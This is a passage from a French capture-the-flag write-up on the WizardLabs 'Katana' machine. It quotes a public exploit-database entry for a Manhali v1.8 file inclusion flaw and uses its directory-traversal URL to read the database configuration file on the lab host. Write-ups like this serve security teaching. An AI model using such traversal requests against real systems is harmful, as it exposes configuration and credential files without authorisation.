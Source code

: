 D'autant plus intéressant que l'on trouve via *searchsploit* une vulnérabilité pour ce logiciel :  

```plain
############################################
### Exploit Title: Manhali v1.8 Local File Inclusion Vulnerability
### Date: 20/09/2012
### Author: L0n3ly-H34rT
### Contact: l0n3ly_h34rt@hotmail.com
### My Site: http://se3c.blogspot.com/
### Vendor Link: http://www.manhali.com/
### Software Link: http://sourceforge.net/projects/manhali/files/manhali_1.8.zip/download
### Version : 1.8 ( may be old version is affect! i don't check )
### Tested on: Linux/Windows
############################################

# P.O.C :

http://127.0.0.1/manhali/includes/download.php?f=../includes/dbconfig.php

############################################

# Greetz to my friendz
```

On peut alors obtenir la configuration de logiciel via l'adresse *http://10.1.1.52:20000/platform/includes/download.php?f=../includes/dbconfig.php*.  

Cette dernière n'a rien d'intéressant puisque l'utilisateur root peut se connecter à MySQL sans mot de passe et qu'ici ce service est inaccessible :(   

Au passage l'exploit parlait d'une faille d'inclusion locale, il n'en est rien puisque le code PHP n'est pas interprété. C'est pourtant pas compliqué de lire un put\*\*\* de message d'erreur :  

![WizardLabs CTF Katana Manhali directory traversal](/assets/img/wizard-labs/katana/katana_file_disclosure.png)
